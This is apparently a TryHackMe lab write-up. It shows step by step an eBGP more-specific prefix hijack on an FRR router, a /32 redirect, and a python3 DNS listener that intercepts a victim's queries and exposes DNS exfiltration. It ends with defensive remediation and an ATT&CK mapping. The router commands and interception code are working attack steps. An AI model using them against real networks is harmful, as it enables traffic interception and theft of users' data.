








# Operation Reroute - BGP Prefix Hijack to DNS Interception

> **Platform:** TryHackMe · **Room:** Operation Reroute · **Difficulty:** Hard · **Category:** Networking / BGP / DNS
> **Skills:** eBGP prefix hijacking (longest-prefix-match), routing manipulation on FRR/vtysh, DNS interception, DNS exfiltration analysis, pivoting
> **Result:** Full chain from an SSH implant on an edge router to live interception of a VIP's DNS traffic, plus a hidden Base64 easter-egg flag.
>
> **Note:** This is the publication-safe copy. Per TryHackMe's guidance, the flag value, the room-provided password, and the Base64 label that decodes to the flag are redacted - the method and formats are shown in full, the answers are not.

---

## Summary / TL;DR

The lab models three Autonomous Systems peering over eBGP. A VIP user relies on a resolver called *Doogle DNS* reachable at `10.10.10.10`. The twist: **two** servers announce that same `/24` - a legitimate resolver (DNS2, far away in AS 3333) and a planted one (DNS1, in our own AS 1111). The victim naturally resolves against the legitimate DNS2 because that is the only route the network advertises.

Starting from an SSH foothold on our edge router (FRR "TryRouteMe"), I:

1. **Hijacked the prefix** by announcing a *more-specific* `10.10.10.0/25` over eBGP. Longest-prefix-match beats AS-path length, so every router in the fabric - including AS 2222 in front of the victim - preferred my route to the real DNS2's `/24`.
2. **Redirected the exact host** with an even more specific `10.10.10.10/32` static route pointing at my jumpbox, after the recon dead-ends proved I couldn't reach or impersonate the real resolver directly.
3. **Captured the victim's queries** with a tiny home-grown UDP/53 listener in `python3`, revealing the victim beaconing a Base64 label - classic **DNS exfiltration**.

**Answers**
- Internal domain: `sekureapp.thm`
- Hidden flag: `THM{REDACTED}`

---

## Scenario & topology



Three ASes in a line:

| AS | Role | Hosts |
|----|------|-------|
| **AS 1111** | attacker side | Kali jumpbox `192.168.1.100`, FRR router **TTM-CORE-01** `192.168.1.1`, rogue **DNS1** `10.10.10.10` |
| **AS 2222** | transit (in front of victim) | Router **TIWS** `10.1.1.2`, **Victim** `192.168.2.100` |
| **AS 3333** | far side | Router **NICENET**, legit **DNS2** `10.10.10.10` |

The victim is a VIP using *Doogle DNS* at `10.10.10.10`. Because DNS1 and DNS2 share that address, whoever wins the route wins the traffic. By default the fabric only knows `10.10.10.0/24` originating from AS 3333, so the victim talks to DNS2.


*The official room diagram: Kali in AS 1111, the victim in AS 2222, and the legitimate DNS2 in AS 3333. Both DNS1 and DNS2 answer on `10.10.10.10` - the green arrow is our reach to DNS1, the red arrow is the victim's default path to DNS2.*

**Initial access:** a Kali implant already gives us SSH to our own edge router:

```bash
ssh ttm@192.168.1.1
# password: <redacted>   # provided by the room; omitted for publication
```

From there we drop into FRR's integrated shell:

```bash
vtysh
```

---

## Recon - where is the route, who owns the prefix

On the router, inspect the BGP table. The legitimate path to the resolver prefix runs out through AS 2222 to AS 3333:

```
TTM-CORE-01# show ip bgp
   Network            Next Hop         Metric  Path
*> 10.10.10.0/24      10.1.1.2              0   2222 3333 i
```

Reading the path right-to-left: the prefix *originates* in AS 3333 (`i` = IGP origin), transits AS 2222, and arrives at us via next-hop `10.1.1.2` (router TIWS). That is the route the victim's side is using for `10.10.10.10`.


A quick scan of the resolver from the jumpbox confirms DNS1 is up and exposes nothing but DNS:


*`nmap -Pn -p- 10.10.10.10` from the jumpbox: `53/tcp open domain` and nothing else. DNS1 can only be impersonated, not logged into.*

**Why a `/24` is the weak point:** BGP best-path selection has many tie-breakers (local-pref, AS-path length, MED…), but they only matter *within the same prefix length*. A router first groups routes by destination prefix, and **the most specific prefix always wins regardless of AS path.** So I don't need to out-compete AS 3333's path - I just need to announce something *longer* than `/24`.

---

## Exploitation - the BGP prefix hijack

The plan: originate `10.10.10.0/25` from AS 1111. A `/25` (128 addresses, `10.10.10.0`–`10.10.10.127`) covers `10.10.10.10` and is one bit more specific than the legit `/24`, so every router that hears both will forward `10.10.10.10` toward **me**.

```
TTM-CORE-01# configure terminal
TTM-CORE-01(config)# ip route 10.10.10.0/25 eth2
TTM-CORE-01(config)# ip prefix-list bgp-out seq 15 permit 10.10.10.0/25
TTM-CORE-01(config)# router bgp 1111
TTM-CORE-01(config-router)#  address-family ipv4 unicast
TTM-CORE-01(config-router-af)#   network 10.10.10.0/25
TTM-CORE-01(config-router-af)#  exit-address-family
TTM-CORE-01(config-router)# end
```

**Why each line exists - this is the part worth understanding:**

- `ip route 10.10.10.0/25 eth2` - the `network` statement in BGP is *not* a generator; it only advertises a prefix **if a matching route already exists in the routing table (RIB)**. Without a real `/25` route present, `network 10.10.10.0/25` silently does nothing. So I plant a static route first. Pointing it at `eth2` is enough to make the entry valid; I don't actually need it to forward correctly yet, because the real traffic-steering happens later with the `/32`.
- `ip prefix-list bgp-out seq 15 permit 10.10.10.0/25` - `bgp-out` is the **outbound filter** applied to the eBGP neighbor. If the `/25` isn't explicitly permitted, the filter drops it before it ever reaches AS 2222 and the hijack never leaves the router. Adding the `permit` entry lets the new prefix through.
- `network 10.10.10.0/25` under the IPv4 unicast address-family - this is the statement that actually **originates** the prefix into BGP and offers it to neighbor `10.1.1.2` (AS 2222).

**Verification:**

```
TTM-CORE-01# show ip bgp
   Network            Next Hop         Metric  Path
*> 10.10.10.0/24      10.1.1.2              0   2222 3333 i
*> 10.10.10.0/25      0.0.0.0               0   i          <-- our origin

TTM-CORE-01# show ip bgp neighbor 10.1.1.2 advertised-routes
   Network            Next Hop   Metric  LocPrf  Weight  Path
*> 10.10.10.0/24      0.0.0.0         0           32768  i
*> 10.10.10.0/25      0.0.0.0         0           32768  i
*> 192.168.1.0/24     0.0.0.0         0           32768  i
Total number of prefixes 3
```

The `/25` shows up in the *advertised-routes* pushed to the AS 2222 neighbor (`10.1.1.2`) - proof the hijack has propagated toward the victim's side. From now on, any router choosing between the `/24` and the `/25` for `10.10.10.10` picks the `/25` → us.


*Neighbor `10.1.1.2` session: `Outgoing update prefix filter list is bgp-out`, `2 accepted prefixes`, and the advertised table now carries `10.10.10.0/25` alongside the /24 - the hijack is live on the wire.*

---

## Pivoting & dead ends

This is where the lab got interesting. Winning the route is only half the job - I still needed something *listening* on `10.10.10.10` that I controlled. Each of the following was a reasonable idea that failed, and each failure narrowed the path to the real answer.

**1. Where can we even capture? - the interface-ownership check.**
The obvious first idea is to sniff the DNS directly: `tcpdump ... port 53`. But *where* you run a capture matters as much as the filter. The BGP session rides the router's `eth2`, so the instinct is to listen there - and that immediately fails:

```bash
tcpdump -i eth2 -n port 53
# tcpdump: eth2: No such device exists
```

The lesson is the takeaway, not the error: **you can only capture on interfaces that are local to the host you're sitting on.** `eth2` belongs to the *router*, not to the jumpbox - two different machines, two different shells. A capture has to live on a box that the victim's traffic actually transits. The jumpbox has `eth0` only, and a `ping` to the resolver from here is already lost, so passive sniffing is off the table - we'll have to make ourselves the destination instead.


*`tcpdump -i eth2` → `No such device exists` (wrong host for that interface), and `ping -c 2 10.10.10.10` → 100% packet loss. This rules out passive capture on the jumpbox early and points toward actively claiming the IP.*

**2. SSH straight to DNS1 (`10.10.10.10`) from local Kali → hangs forever.**
The TryHackMe VPN only routes me to the *edge* (the router). It does not extend inside `10.10.10.0/24`, so packets to the resolver have no return path to my tun interface. The VPN is a doorway to the perimeter, not a seat inside the internal network.

**3. Pivot through the jumpbox, then SSH onward → dead.**
I reached the jumpbox via `telnet 10.145.148.119 6001` and from there tried `ssh ttm@10.10.10.10`. The session just hangs and has to be `^C`'d - the resolver runs no SSH. Progress, though: the jumpbox *can* reach the resolver subnet at all, which the VPN could not.


*`ssh ttm@10.10.10.10` from the jumpbox goes nowhere - DNS1 exposes port 53 only (confirmed by the nmap above).*

**4. Port scan the resolver.**
```bash
nmap -Pn -p- 10.10.10.10
# only 53/tcp + 53/udp open
dig @10.10.10.10 version.bind txt chaos
# → "dnsmasq-2.90"
```
DNS1 is a `dnsmasq 2.90` instance and does *nothing* but DNS. There is no shell, no upload, no web - I cannot take it over, only replace what the network thinks it is.

**5. Try to make dnsmasq tell me the internal domain.**
```bash
dig -x 10.10.10.10 @10.10.10.10        # reverse PTR - nothing useful
dig hostname.bind txt chaos @10.10.10.10   # NOTIMP
dig id.server txt chaos @10.10.10.10       # NOTIMP
dig authors.bind txt chaos @10.10.10.10    # "Simon Kelley" - the dnsmasq author, useless
```
dnsmasq answers *local* chaos/PTR records instantly but **times out on anything it has to forward** - its upstream is dead. Conclusion: I can't extract the internal domain by *asking* the resolver. The domain has to come from somewhere that already knows it - i.e. from the victim's own queries. That realization is what pointed at **interception** instead of enumeration.

**6. Self-inflicted routing bug.**
At one point I had `10.10.10.10/32` assigned on the jumpbox's `eth0`, which made my *own* `dig @10.10.10.10` resolve to the box itself and time out. Fix:
```bash
ip addr del 10.10.10.10/32 dev eth0
```
Worth noting as a reminder: when you claim a victim IP locally, your own tooling starts talking to *you*.

**7. A bare jumpbox.**
The jumpbox shipped with no `tcpdump`, `nc`, `python2`, or `dnsmasq`. `apt install tcpdump` failed because DNS resolution was broken; `echo nameserver 1.1.1.1 > /etc/resolv.conf` fixed resolution but the package still wouldn't finish downloading (no real egress). It *did* have `python3` and `perl` - which is all the final move needed.


*Patching `/etc/resolv.conf` lets `apt` resolve the mirror, but the download stalls at `Connecting to http.kali.org` - no package install is coming. Time to use what's already on the box.*

**8. The AttackBox is on the wrong network.**
The THM AttackBox (`10.145.94.48/18`) gets 100% packet loss to the router, jumpbox, and DNS1. It lives on THM's public range, not inside the lab fabric. Useless as a capture point.


*From the AttackBox (`ens5 10.145.94.48/18`): `ping` to the router, the jumpbox, and the resolver all return 100% packet loss. It has `tcpdump`, but no route into the lab.*

**Net takeaway from the dead ends:** I can't reach the resolver subnet from my VPN, I can't log into DNS1, I can't interrogate it, and I can't install tooling. But the jumpbox *can* reach the subnet and *does* have `python3`. So the move is: steer `10.10.10.10` to the jumpbox and answer the DNS myself.

---

## The winning move - redirect `/32` + a home-made DNS listener

The `/25` convinced the fabric to send the resolver prefix toward AS 1111. Now I make the *single host* `10.10.10.10` land on the jumpbox and stand up a listener there.

**On the jumpbox - claim the IP and run a minimal UDP/53 server in `python3`:**

```bash
ip addr add 10.10.10.10/32 dev eth0
```

A `/32` is the most specific route possible, so it beats everything - including my own `/25` - for that one address.

```python
#!/usr/bin/env python3
# dns_sniffer.py - minimal UDP/53 listener that prints the queried name
import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.bind(("0.0.0.0", 53))
print("[*] listening on 0.0.0.0:53 ...")

while True:
    data, addr = sock.recvfrom(4096)
    # DNS header is 12 bytes; the QUESTION section starts at offset 12.
    # A QNAME is a sequence of length-prefixed labels, terminated by a 0x00 byte.
    i = 12
    labels = []
    while True:
        length = data[i]
        if length == 0:
            break
        labels.append(data[i + 1 : i + 1 + length].decode(errors="replace"))
        i += 1 + length
    qname = ".".join(labels)
    print(f"[+] {addr[0]} -> {qname}")
```

```bash
python3 dns_sniffer.py
```

**On the router - pin `10.10.10.10` to the jumpbox:**

```
TTM-CORE-01# configure terminal
TTM-CORE-01(config)# ip route 10.10.10.10/32 192.168.1.100
TTM-CORE-01(config)# end
```

**Live capture:** within seconds the VIP victim (`192.168.2.100`) starts hammering the listener:

```
[*] listening on 0.0.0.0:53 ...
[+] 192.168.2.100 -> <base64-label-redacted>.flag.sekureapp.thm
[+] 192.168.2.100 -> <base64-label-redacted>.flag.sekureapp.thm
...
```

That is **DNS exfiltration**: an endpoint encoding data into subdomain labels and leaking it out through DNS queries, which almost always traverse perimeter filters untouched. Here the "data" is a Base64 blob hanging off `flag.sekureapp.thm`.


---

## Flags

**Internal domain** (format: 9 letters `.` 3 letters) - read straight off the captured queries:

```
sekureapp.thm
```

**Hidden easter-egg flag** - decode the Base64 label:

```bash
echo '<base64-label-redacted>' | base64 -d
# THM{REDACTED}
```

```
THM{REDACTED}
```

**Gotcha worth remembering:** the room's single question asks for the *domain*, not the flag. Submitting the decoded `THM{...}` there is rejected - the flag is an easter egg hidden inside the exfiltrated data, while the graded answer is the plain domain `sekureapp.thm`:

---

## Detection & remediation

The whole attack rests on BGP accepting an unauthorized, more-specific origin. Defenses, in order of impact:

**1. RPKI / ROA origin validation.** Publish a Route Origin Authorization binding `10.10.10.0/24` to its real origin AS (3333) with a `maxLength` of `/24`. A validating router then marks my `/25` from AS 1111 as **Invalid** and drops it. This is the single control that kills this exact hijack.

**2. Inbound prefix filtering (not just outbound).** The lab only had an *outbound* `bgp-out` list. Real eBGP edges must also filter **inbound** - accept only the specific prefixes/lengths a neighbor is authorized to send, and explicitly reject more-specifics of someone else's space:
```
ip prefix-list FROM-AS1111 seq 5 deny 10.10.10.0/24 le 32
```

**3. Max-prefix limits** (`neighbor x.x.x.x maximum-prefix N`) to cap a misbehaving or compromised peer and alarm on sudden table growth.

**4. BGP monitoring / route-leak detection** (BGPmon-style alerting, looking-glass diffs) to catch a new more-specific announcement for a prefix you don't own.

**5. DNSSEC** so forged resolver answers can't be silently trusted - and **don't anycast two unrelated resolvers on the same address** without authenticated routing, which is what made the hijack meaningful here.

**6. Egress DNS controls** - endpoints should resolve only through sanctioned resolvers, with monitoring for high-entropy / long subdomain labels (a hallmark of DNS tunneling/exfiltration like the `flag.sekureapp.thm` beacon).

---

## Lessons & MITRE ATT&CK mapping

- **Longest-prefix-match is a security boundary.** AS-path length, local-pref, and MED are irrelevant once a more-specific prefix is on the table. A single rogue `/25` beat a legitimately-pathed `/24`.
- **`network` ≠ "advertise this."** It only exports a prefix already present in the RIB and permitted by the outbound policy. Three things had to line up: static route → prefix-list permit → `network` statement.
- **When you can't enumerate a target, intercept its clients.** Every attempt to pull the domain *out of* the resolver failed; the domain arrived for free the moment the victim talked to a server I controlled.
- **`/32` > `/25` > `/24`.** Layering specificity let me first win the prefix at the fabric level, then surgically pin one host to my own listener.

| Technique | ATT&CK ID |
|-----------|-----------|
| Adversary-in-the-Middle (route/traffic redirection) | **T1557** |
| Application Layer Protocol: DNS (C2/exfil channel) | **T1071.004** |
| Exfiltration Over Alternative Protocol (DNS tunneling, observed on the victim) | **T1048** |
| Network Service Discovery (`nmap`, `dig` chaos probes) | **T1046** |

---

*Educational TryHackMe lab, performed in an authorized sandbox environment. Techniques documented for defensive understanding and portfolio purposes.*
